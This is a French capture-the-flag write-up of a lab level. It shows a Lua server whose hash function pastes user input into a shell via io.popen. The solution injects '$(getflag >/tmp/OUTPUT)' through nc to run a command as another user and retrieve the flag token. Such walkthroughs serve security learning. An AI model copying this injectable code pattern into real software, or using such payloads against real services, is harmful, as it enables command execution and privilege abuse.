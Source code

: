 # level11

### Observations:
##### J'affiche le programme accessible dans le dossier utilisateur:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
Je me rend compte que ce programme est execute par defaut en tant qu'utilisateur 'flag11' grace a la commande:
```sh
ps aux | grep flag11
```

##### Entrees du programme
```lua
string mot_de_passe
```

##### Fonctionnement
Le programme est un serveur qui tente de hasher la chaine de caracteres entree par l'utilisateur.
Il compare ensuite la chaine hashee avec une chaine predefinie pour afficher differents messages inutiles. 

> Le serveur est heberge sur l'addresse ip '127.0.0.1' avec le port '5151'.

> Le serveur est execute en arriere-plan grace a cron par defaut.

##### Conclusions
La fonction hash a une vulnerabilite qui nous laisse executer du code shell comme nous le voulons. \
Vu que ce programme est execute par l'utilisateur 'flag11' par defaut nous pouvons avoir acces a son flag. 

## Resolution:
J'effectue une commande qui permet d'obtenir le resultat de 'getflag' une fois que le parseur lua aura effectue une passe, par la suite je redirige la sortie de cette derniere dans un fichier accessible car je ne pouvais pas la voir autrement. \
J'affiche ensuite le contenu de ce fichier.

#### commandes:
```sh
nc 127.0.0.1 5151 <<<'$(getflag >/tmp/OUTPUT)'
cat /tmp/OUTPUT
```

**token :** fa6v5ateaw21peobuub8ipe6s